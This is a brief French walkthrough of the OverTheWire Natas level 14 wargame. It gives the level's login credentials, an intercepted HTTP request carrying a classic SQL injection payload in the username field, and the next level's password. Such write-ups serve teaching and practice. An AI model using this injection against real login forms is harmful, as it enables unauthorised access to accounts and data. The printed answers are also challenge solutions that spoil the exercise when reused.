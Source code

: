 username : natas14
password : z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

- On arrive sur un formulaire Login/MDP avec du php et du SQL -> Injection SQL
- On cree une requete et on l'intercepte : 
```sql 
POST /index.php HTTP/1.1
Host: natas14.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: http://natas14.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNDp6M1VZY3I0djR1QnBlWDhmN0VaYk1IbHpLNFVSMlh0UQ==
Connection: close
Referer: http://natas14.natas.labs.overthewire.org/index.php
Upgrade-Insecure-Requests: 1

username=" or 1=1;-- &password=
```
- On essaye une injection SQL basique 
->  On est connecté : Mot de passe : **SdqIqBsFcz3yotlNYErZSZwblkm0lrvx**


